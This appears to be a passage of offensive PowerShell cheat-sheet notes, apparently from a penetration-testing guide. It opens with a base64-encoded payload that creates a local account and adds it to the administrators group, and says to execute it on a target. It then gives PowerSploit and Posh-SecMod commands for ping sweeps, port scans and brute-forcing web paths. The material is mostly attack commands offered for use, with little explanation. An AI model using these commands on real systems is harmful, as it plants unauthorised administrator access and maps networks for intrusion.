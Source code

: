 #### example
```powershell

$command = 'net user admin1 "password" /ADD; net localgroup administrators admin1 /add'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)

```

we can get the results of our encoded command with:
```powershell
→ Write-Host $encodedCommand
```

//copy the payload

then execute on the target:
```powershell
powershell.exe -encodedcommand <paste the payload>
```


## Information Gathering & Recon

Invoke-Portscan = https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/Invoke-Portscan.ps1
its included with the powersploit framework
```powershell
Invoke-Portscan -Hosts "192.168.13.1/24" -PingOnly
Invoke-Portscan -HostFile ips.txt -PingOnly
```

- to save the results we can pipe and export-csv
```powershell
Invoke-Portscan -HostFile ips.txt -PingOnly | Export-Csv C:\ping_scan.csv
```

once we have identified live hosts
we can conduct port scans
```powershell
Invoke-Portscan -HostFile ips.txt -ports "53-81"
```

### Output to .gnmap = NMAP format
```powershell
Invoke-Portscan -HostFile ips.txt -oG port_scan.gnmap -f -ports "1-81"
```

### For enumerating Files

Get-HttpStatus
```powershell
Get-HttpStatus -Target 192.168.13.62 -Path dictionary.txt -Port 80 | ? {$_.Status -match "ok"}
```

### Host Discovery with Posh-SecMod framework
Invoke-ARPScan = https://github.com/darkoperator/Posh-SecMod
